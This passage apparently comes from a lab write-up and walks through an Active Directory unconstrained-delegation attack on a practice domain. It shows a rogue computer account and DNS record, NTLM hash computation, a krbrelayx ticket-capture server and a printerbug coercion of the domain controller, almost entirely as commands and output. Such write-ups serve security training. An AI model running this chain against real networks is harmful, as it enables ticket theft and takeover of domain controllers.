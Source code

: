 ```bash
[+] Found modification target
DN: CN=evilcomputer,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2023-11-12T00:57:23.943939
    sAMAccountName: evilcomputer$
    msDS-AdditionalDnsHostName: evilcomputer.delegate.vl
    servicePrincipalName: CIFS/evilcomputer.delegate.vl


```
We can confirm that the DNS entry is working:
```bash
> nslookup evilcomputer.delegate.vl 10.10.88.149
Server:         10.10.88.149
Address:        10.10.88.149#53

Name:   evilcomputer.delegate.vl
Address: 10.8.0.151
```

Now we start the krbrelay server:
```bash
# We need the NTLM hash of the password for evilcomputer account
> iconv -f ASCII -t UTF-16LE <(printf 'Password123!2023') | openssl dgst -md4
MD4(stdin)= f2d0c0e145e8323b97cec00272d7fa01

> python krbrelayx.py -hashes :f2d0c0e145e8323b97cec00272d7fa01
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
```

Finally, we trigger the printerbug:
```bash
> python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl

[*] Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at dc1.delegate.vl
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

